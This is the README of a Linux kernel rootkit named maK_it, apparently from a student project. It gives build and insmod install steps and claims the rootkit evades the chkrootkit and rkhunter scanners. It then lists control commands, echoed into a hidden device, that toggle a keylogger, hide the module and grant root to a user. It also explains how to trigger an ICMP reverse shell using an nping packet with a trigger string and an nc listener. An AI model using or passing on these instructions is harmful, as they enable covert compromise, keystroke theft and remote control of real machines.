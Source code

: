 maK_it-Linux-Rootkit
========================

This is a simple rootkit implementation for the project described
at the following locations
http://blogs.computing.dcu.ie/wordpress/mak0/
http://r00tkit.me

This rootkit avoids both the chkrootkit & rkhunter scanners as intended.
It is fully compatible with the latest version of CentOS 6.5


To run simply run "make" in the folder with the Makefile.

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it


===============
Demo Commands
===============
Echo any of the following into /dev/.maK_it

debug - turn /var/log/messages debug messages on or off.
keyLogOn - turn the keylogger on
keyLogOff - turn the keylogger off
modHide - hide the module (hidden by default in insmod)
modReveal - reveal the module (so you can rmmod it)
rootMe - give root privileges to user
shellUp - Turn on a packet sniffer for reverse shell icmp
shellDown - Turn off the packet sniffer daemon

To trigger the reverse shell, listen on a port of your choice
on your own machine. The shell will be returned if you send an 
icmp packet with the right trigger word, your ip/port.

Example: nping --icmp -c 1 -dest-ip 127.0.0.1 --data-string 'maK_it_$H3LL 127.0.0.1 31337'
A port listener can be simply opened on your machine using nc -l 31337
